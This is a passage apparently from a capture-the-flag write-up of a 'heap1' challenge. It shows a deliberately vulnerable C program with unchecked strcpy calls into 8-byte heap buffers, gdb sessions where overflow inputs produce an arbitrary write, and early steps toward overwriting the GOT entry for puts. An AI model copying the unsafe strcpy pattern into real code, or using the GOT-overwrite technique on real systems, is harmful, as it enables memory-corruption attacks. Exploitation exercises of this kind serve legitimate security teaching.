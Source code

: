```c
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

Running the program with two 4 byte inputs, runs as expected:

    # ./heap1 AAAA BBBB
    and that's a wrap folks!


However with inputs that exceed the 8 byte allocated heap chunks:

    gdb-peda$ r AAAABBBBCCCCDDDDEEEEFFFFGGGG 000011112222333344445555
    Stopped reason: SIGSEGV
    *__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0xbffffe66 "000011112222333344445555") at strcpy.c:40

Segfaults. Noting the dest of the `strcpy` now has an address of `0x46464646` (or the FFFF characters from the first input argument). Given that we can control the destination address (offset of the FFFF characters), and source data by overflowing enough of the heap segment, have an *arbitary write to anywhere* vulnerability.

A real world attack could involve mutating one of the GOT (global offset table) address for a function call to a dynamically linked piece of functionality tied in the linker (`ld.so`).


    gdb-peda$ backtrace
    #0  *__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0xbffffe66 "000011112222333344445555") at strcpy.c:40
    #1  0x080485ad in main (argc=0x3, argv=0xbffffd14) at main.c:30
    #2  0xb7e8de46 in __libc_start_main (main=0x8048510 <main>, argc=0x3, ubp_av=0xbffffd14, init=0x80485d0 <__libc_csu_init>)
    #3  0x08048421 in _start ()


Disassembling the instruction responsible for calling `strcpy`:

    gdb-peda$ disass 0x080485ad
    Dump of assembler code for function main:
    ...
    0x080485a8 <+152>:   call   0x80483b0 <strcpy@plt>
       0x080485ad <+157>:   mov    DWORD PTR [esp],0x804866b
       0x080485b4 <+164>:   call   0x80483d0 <puts@plt>
       0x080485b9 <+169>:   leave
       0x080485ba <+170>:   ret
    End of assembler dump.

Reveals `puts@plt` is invoked after the dangerous `strcpy` call. To get to the GOT table, must first disassembly the PLT (procedure linkage table) trampoline to the GOT.
